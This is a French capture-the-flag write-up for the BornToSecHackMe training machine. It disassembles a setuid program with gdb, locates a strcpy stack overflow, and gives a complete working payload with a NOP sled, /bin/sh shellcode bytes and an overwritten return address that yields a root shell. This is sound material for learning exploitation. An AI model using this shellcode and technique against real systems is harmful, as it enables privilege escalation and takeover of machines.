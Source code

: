 ## BONUS 5

Ici nous nous retrouvons directement log en tant que zaz.

Pour ce bonus nous allons juste exploiter le programme exploit_me d'une facon différente deux autres :

Ici nous allons remplir notre chaine de caracteres avec des NOP (0x90), puis avec un shellcode et finalement ecraser eip avec l'adresse de nos NOP.

Montons notre exploit :

```
zaz@BornToSecHackMe:~$ gdb -q exploit_me
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
(gdb) p 0x90
$1 = 144
(gdb) b*0x08048425
Breakpoint 1 at 0x8048425
(gdb) r `python -c 'print "\x90" * 140'`
Starting program: /home/zaz/exploit_me `python -c 'print "\x90" * 140'`

Breakpoint 1, 0x08048425 in main ()
(gdb) x/24xw $esp
0xbffff540:	0xbffff550	0xbffff7bc	0x00000001	0xb7ec3c49
0xbffff550:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff560:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff570:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff580:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff590:	0x90909090	0x90909090	0x90909090	0x90909090
(gdb)
```

Ici nous voyons que notre chaine de NOP commence a l'adresse 0xbffff550. Nous allons donc rediriger le flux d'execution sur l'adresse 0xbffff560 pour etre sur de tomber dans notre chaine

```
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print "\x90" * 45 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90" * 50 + "\x60\xf5\xff\xbf"'`
����������������������������������������������^�1��F�F
                                                      �
                                                       ���V
                                                            ̀1ۉ�@̀�����/bin/sh��������������������������������������������������`���
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# cd /root
# cat README
CONGRATULATIONS !!!!
To be continued...
#
```

Notre exploit est de la forme : [NOP][shellcode][NOP][addresse] pour un total de 144 caractères, eip compris.

Et voila, nous sommes root !
